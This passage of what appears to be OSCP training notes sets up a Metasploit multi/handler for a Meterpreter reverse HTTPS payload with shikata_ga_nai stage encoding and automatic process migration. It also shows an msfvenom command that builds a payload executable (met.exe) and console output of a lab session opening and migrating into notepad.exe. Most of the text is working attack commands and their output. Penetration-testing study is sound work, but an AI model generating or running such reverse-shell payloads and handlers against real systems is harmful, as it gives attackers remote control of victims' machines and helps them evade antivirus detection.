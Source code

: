 resource (setup.rc)> set PAYLOAD windows/meterpreter/reverse_https

PAYLOAD => windows/meterpreter/reverse_https

resource (setup.rc)> set LHOST 10.11.0.4

LHOST => 10.11.0.4

resource (setup.rc)> set LPORT 443

LPORT => 443

resource (setup.rc)> set EnableStageEncoding true

EnableStageEncoding => true

resource (setup.rc)> set StageEncoder x86/shikata_ga_nai

StageEncoder => x86/shikata_ga_nai

resource (setup.rc)> set AutoRunScript post/windows/manage/migrate

AutoRunScript => post/windows/manage/migrate

resource (setup.rc)> set ExitOnSession false

ExitOnSession => false

resource (setup.rc)> exploit -j -z

[*] Exploit running as background job 0.

msf5 exploit(multi/handler) >

[*] Started HTTPS reverse handler on https://10.11.0.4:443


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/29.jpg)



-j , -z = automatically interacting with the session.

With the listener configured and running, we can, for example, launch an executable containing a meterpreter payload from our Windows VM.

 We can create this executable with msfvenom:

kali@kali:~$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.4 LPORT=443
-f exe -o met.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 589 bytes
Final size of exe file: 73802 bytes
Saved as: met.exe


When executed, our multi/handler accepts the connection:

[*] https://10.11.0.4:443 request from 10.11.0.22; Encoded stage with shikata_ga_nai
[*] https://10.11.0.4:443 request from 10.11.0.22; Staging x86 payload (180854 bytes)
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.0.22:49783)
[*] Session ID 1 (10.11.0.4:443 -> 10.11.0.22:49783) processing AutoRunScript 'post/wi
ndows/manage/migrate'
[*] Running module against CLIENT251
[*] Current server process: test.exe (7520)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 4724
[+] Successfully migrated to process 4724
